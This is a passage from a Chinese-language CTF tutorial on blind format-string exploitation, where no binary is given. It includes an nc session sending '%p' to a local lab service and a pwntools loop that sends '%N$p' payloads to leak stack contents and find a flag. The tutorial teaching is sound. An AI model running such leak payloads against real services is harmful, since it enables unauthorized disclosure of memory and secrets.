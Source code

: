 需要注意的是，这样并不能稳定得到shell，因为我们一次性输入了太长的字符串。但是我们又没有办法在前面控制所想要输入的地址。只能这样了。

## 格式化字符串盲打

### 原理

所谓格式化字符串盲打指的是只给出可交互的ip地址与端口，不给出对应的binary文件来让我们进行pwn，其实这个和BROP差不多，不过BROP利用的是栈溢出，而这里我们利用的是格式化字符串漏洞。一般来说，我们按照如下步骤进行

- 确定程序的位数
- 确定漏洞位置 
- 利用

由于没找到比赛后给源码的题目，所以自己简单构造了两道题。

### 例子1-泄露栈

源码和部署文件均放在了对应的文件夹fmt_blind_stack中。

#### 确定程序位数

我们随便输入了%p，程序回显如下信息

```shell
➜  blind_fmt_stack git:(master) ✗ nc localhost 9999
%p
0x7ffd4799beb0
G�flag is on the stack%                          
```

告诉我们flag在栈上，同时知道了该程序是64位的，而且应该有格式化字符串漏洞。

#### 利用

那我们就一点一点测试看看

```python
from pwn import *
context.log_level = 'error'


def leak(payload):
    sh = remote('127.0.0.1', 9999)
    sh.sendline(payload)
    data = sh.recvuntil('\n', drop=True)
    if data.startswith('0x'):
        print p64(int(data, 16))
    sh.close()


i = 1
while 1:
    payload = '%{}$p'.format(i)
    leak(payload)
    i += 1

```
